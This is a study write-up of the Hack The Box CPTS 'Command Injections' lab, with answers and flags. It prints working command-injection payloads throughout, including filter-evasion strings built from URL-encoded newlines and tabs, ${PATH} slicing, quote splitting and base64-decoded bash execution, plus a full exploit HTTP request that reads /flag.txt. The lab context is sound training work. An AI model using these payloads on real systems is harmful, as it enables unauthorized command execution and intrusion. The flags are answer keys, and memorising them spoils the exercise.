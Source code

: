 ```yaml
---
title: CPTS labs - 21 Command injections
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 21 Command injections


## [Command Injections](https://academy.hackthebox.com/module/details/109)

### Exploitation

**Try adding any of the injection operators after the ip in IP field. What did the error message say (in English)?**

Inject directly on the website and there is some frontend side sanitization.

Results: Please match the requested format.

Review the HTML source code of the page to find where the front-end input validation is happening. On which line number is it?

![](img/command-injection_00.png)

Results: 17


**Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```bash
# After trying the three of them:
ip=127.0.0.1+|+whoami
ip=127.0.0.1\nwhoami
ip=127.0.0.1+&+whoami

```

Results: `|`


### Filter Evasion

**Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?**

```bash
# Use url-encoded character for new line
%0a

# As 'whoami' is being filtered, as single quotes are being removed, use:
whoam'i

# As blank spaces are being removed, user an url-encoded expression for TAB
%09

# All together
ip=127.0.0.1%0a%09whoam'i
```

Results: new-line


**Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```bash
# We enter as input
ip=127.0.0.1%0a{ls,-la}
```

Results: 1613

**Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

```bash
ip=127.0.0.1%0a%09ls%09${PATH:10:1}home
```


**Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**

```bash
# First we list the directory
ip=127.0.0.1%0a%09ls%09${PATH:10:1}home${PATH:10:1}1nj3c70r

# Now we print the flag.txt. As cat command is blacklisted we will use doble quotes to bypass the restriction. We will use the environmental variable PATH to print /
127.0.0.1%0a%09"ca"t%09${PATH:10:1}home${PATH:10:1}1nj3c70r${PATH:10:1}flag.txt
```

Results: HTB{b451c_f1l73r5_w0n7_570p_m3}


**Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

```bash
echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
# Output:
# ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=

127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

Results: /usr/share/mysql/debian_create_root_user.sql


### Skills Assessment

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

 **Authenticate to with user "guest" and password "guest". What is the content of '/flag.txt'?**

Move feature: 
 
```bash
GET /index.php?to=&from=696212415.txt\\\n%09%60'c'at%09${PATH:0:1}flag.txt%60&finish=1&move=1 HTTP/1.1
Host: 94.237.50.242:34291
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.50.242:34291/index.php?to=&from=696212415.txt
Cookie: filemanager=pni25scv3jtjvsf311dmj1b6o7
Upgrade-Insecure-Requests: 1
```

Results: HTB{c0mm4nd3r_1nj3c70r}

